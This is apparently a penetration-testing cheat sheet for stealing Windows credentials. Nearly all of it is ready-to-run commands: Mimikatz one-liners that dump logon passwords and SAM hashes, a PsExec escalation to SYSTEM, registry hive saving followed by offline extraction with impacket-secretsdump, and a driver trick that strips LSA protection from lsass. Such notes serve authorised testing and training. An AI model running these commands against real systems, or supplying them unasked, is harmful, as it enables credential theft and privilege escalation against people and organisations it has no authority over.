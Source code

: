 
For Mimikatz, you are in an Evil-winrm shell that has issues when running Mimikatz interactively. You can use the following one-liner: 
```
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit
```

```
.\mimikatz64.exe "privilege::debug" "lsadump::sam /sam:C:\Windows.old\Windows\System32\SAM /system:C:\Windows.old\Windows\System32\SYSTEM" exit
```

if mimikatz doesnt work,

## ALTERNATIVES

### GET A NT AUTH SHELL AND RUN AGAIN
```
# Using PsExec to get SYSTEM shell
.\PsExec64.exe -i -s cmd.exe

# Verify you're running as SYSTEM
whoami
# Should return: NT AUTHORITY\SYSTEM

```

### DUMP SAM AND SYSTEM REGISTRY

```
# Save registry hives
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save  
reg save HKLM\SYSTEM system.save
```

```
# Use secretsdump offline
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
```

#### **Check for LSA Protection**

Verify if LSA Protection is enabled:

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa # Look for RunAsPPL = 0x1 (protection enabled)
```

If LSA Protection is enabled, you may need to use mimikatz with a driver to bypass it:

```
mimikatz # !+ mimikatz # !processprotect /process:lsass.exe /remove mimikatz # sekurlsa::logonpasswords
```

### Switch to Memory-Only Tools
If registry access is blocked, try **lsassy** or **pypykatz** under SYSTEM.
